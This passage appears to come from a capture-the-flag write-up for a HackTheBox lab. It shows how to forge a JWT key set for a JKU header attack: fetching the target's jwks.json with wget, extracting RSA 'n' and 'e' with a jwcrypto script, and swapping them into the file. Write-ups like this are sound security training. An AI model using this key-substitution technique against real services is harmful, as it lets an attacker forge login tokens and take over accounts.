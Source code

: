 In order to create a valid jku certificate you can download the original one and change the needed parameters.
```bash
wget http://hackmedia.htb/static/jwks.json
```

You can obtain the parameter "`e`" and "`n`" from a public certificate using python -
* There is a issue with formatting hacktricks shows this value in hex format but our target server using possibly base64 format. We can still get these values with python but with different module and different techniques.
```python
from jwcrypto import jwk
import json
with open("keypair.pem", "rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())
jwks = key.export_public()
print(json.loads(jwks)['n'])
print(json.loads(jwks)['e'])
```

![](/assets/img/posts/unicode/get-e-n.png)

Replace `e` and `n` value in original `jwks.json` with new values.
```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "5VB6YkmCCvY7UTdKNh4jUSxySy8Kew9A_ZIb3zilwMzXOgg8gThoicyR9pQmpjKrNWYz3eBueDkkjc7gHaN7H97rbpZq01NxsKGxWGqgO7JVSjq0o_YLPBztGFZ-R0tqZ-wzObuL8ZDnbm0vWdgFtxSVNAGB8eL0S-t9wMY6ALz8KXbYyWarH1FJpgYFtzrYRE6oJQsPCfgCzWIkKEV-dUyAcn7B2sVKjceEsI1JoKonQU4X6RJmU8PHFcjFqix2_fWUhVhLjVcKDHDNECY-h3jfd-1j_m0Na1F5eP87s_hSLdJVkaIiI4v6lOpFR7BxbN-UN9aCo_PE8thW3TavSw",
            "e": "AQAB"
        }
    ]
}
```
